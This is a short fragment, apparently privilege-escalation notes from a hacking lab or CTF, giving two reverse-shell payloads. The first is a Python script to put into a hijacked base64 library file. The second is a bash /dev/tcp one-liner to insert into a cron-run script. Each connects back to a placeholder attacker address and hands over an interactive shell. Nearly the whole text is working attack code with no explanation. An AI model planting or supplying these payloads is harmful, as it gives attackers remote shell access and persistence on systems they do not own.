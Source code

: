 - Edit python library base64

````python
#!/usr/bin/python3  
from os import dup2  
from subprocess import run  
import socket  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("LOCAL_IP",1234))   
dup2(s.fileno(),0)   
dup2(s.fileno(),1)   
dup2(s.fileno(),2)   
run(["/bin/bash","-i"])
````

- Edit an script running in a crontab:

```bash
bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1
```


